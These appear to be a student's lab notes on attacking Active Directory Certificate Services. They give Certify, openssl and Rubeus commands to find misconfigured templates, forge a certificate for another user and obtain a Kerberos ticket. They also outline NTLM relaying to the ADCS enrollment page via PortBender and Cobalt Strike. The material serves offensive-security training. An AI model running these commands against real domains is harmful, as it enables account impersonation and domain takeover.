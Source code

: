 # ADCS Notes

**Finding Certificate Authorities**

Tools: [Certify](https://github.com/GhostPack/Certify)

Search ADCS in a domain or forest
```
execute-assembly C:\Tools\Certify\Certify\bin\Release\Certify.exe cas
```

**Misconfigured Certificate Templates**

find vulnerable tickets
```
execute-assembly C:\Tools\Certify\Certify\bin\Release\Certify.exe find /vulnerable
```
key parts to look into
1. the CA name
2. Template Name
3. msPKI-Certificate-Name-Flag
4. pkiextendedkeyusage
5. Enrollment Rights - see who can enroll here, look for groups you are in or if all domain users can

Abusing steps
1. Request a certificate for a user
2. copy and whole certificate and save it as cert.pem on linux
3. use openssl command to convert to pfx format
4. convert cert.pfx into a base64 string for Rubeus
5. make an asktgt req for the user using the cert
```
execute-assembly C:\Tools\Certify\Certify\bin\Release\Certify.exe request /ca:dc-2.dev.cyberbotic.io\sub-ca /template:CustomUser /altname:<user>
openssl pkcs12 -in cert.pem -keyex -CSP "Microsoft Enhanced Cryptographic Provider v1.0" -export -out cert.pfx
cat cert.pfx | base64 -w 0
execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe asktgt /user:<user> /certificate:<base64> /password:pass123 /nowrap
```

**NTLM Relaying to ADCS HTTP Endpoints**

can't relay dc to adcs if running on same dc, but we can relay with a system having unconstrained delegation

steps:
1. portbender on unconstrained device capturing 445->8445
2. reverse port forward to forward traffic hitting port 8445 to the team server on port 445
3. a socks proxy for ntlmrelayx to send traffic back into the network
4. ntlmrelayx pointing to the certfnsh.asp page on the adcs server

```
cd C:\Windows\system32\drivers
upload C:\Tools\PortBender\WinDivert64.sys
  **Then go to Cobalt Strike > Script Manager and load PortBender.cna from C:\Tools\PortBender - this adds a new PortBender command to the console.**
PortBender redirect 445 8445
```



